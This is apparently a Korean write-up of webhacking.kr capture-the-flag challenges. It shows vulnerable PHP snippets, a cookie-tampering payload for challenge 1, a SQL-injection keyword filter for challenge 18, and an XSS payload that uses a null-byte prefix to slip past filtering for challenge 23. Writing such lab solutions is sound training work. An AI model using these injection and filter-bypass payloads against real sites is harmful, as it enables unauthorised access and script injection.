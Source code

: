 # webhacking.kr write up
블로그가 너무 느려서 마크다운으로 갈아탔다

## challenge 1
```php
$password="????";
if(eregi("[^0-9,.]",$_COOKIE[user_lv])) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>=6) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>5) @solve();
echo("<br>level : $_COOKIE[user_lv]");
```
`user_lv`가 6 이상이면 `user_lv`가 1로 되돌아가고, `user_lv`가 5보다 크면 풀리게 된다.
5 < `user_lv` < 6 이면 된다는 것이다. `user_lv`가 5.xx면 풀릴 것 같다.
### payload
`document.cookie = "user_lv=5.1"`

## challenge 18
```php
if(eregi(" |/|\(|\)|\t|\||&|union|select|from|0x",$_GET[no])) exit("no hack"); 
$q=@mysql_fetch_array(mysql_query("select id from challenge18_table where id='guest' and no=$_GET[no]")); 
if($q[0]=="guest") echo ("hi guest"); 
if($q[0]=="admin") { 
    @solve(); 
    echo ("hi admin!"); 
} 12
```

## challenge 23
![prob23](./img/chal23.png)<br>
`Your mission is to inject <script>alert(1);</script>`이라고 한다.
그냥 GET으로 넘길 때 code값 맨 앞에 NULL(%00)을 추가해 주면 풀린다.
### payload
`http://webhacking.kr/challenge/bonus/bonus-3/index.php?code=%00<script>alert(1);</script>`

